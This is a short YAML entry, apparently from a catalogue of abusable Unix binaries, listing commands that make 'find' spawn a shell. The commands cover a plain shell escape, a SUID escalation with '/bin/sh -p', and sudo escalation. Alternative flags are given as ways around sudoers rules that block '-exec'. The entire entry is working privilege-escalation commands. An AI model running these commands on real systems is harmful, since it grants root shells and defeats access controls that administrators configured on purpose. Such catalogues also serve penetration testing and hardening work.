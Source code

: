```yaml
---
functions:
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - description: The most common way
      code: sudo find . -exec /bin/sh \; -quit
    - description: Alternatives if the usage of -exec is blocked in /etc/sudoers by e.g. !/usr/bin/find * -exec *
      code: |
        sudo find . -ok /bin/sh \; -quit
        sudo find . -execdir /bin/sh \; -quit
        sudo find . -okdir /bin/sh \; -quit
---
```

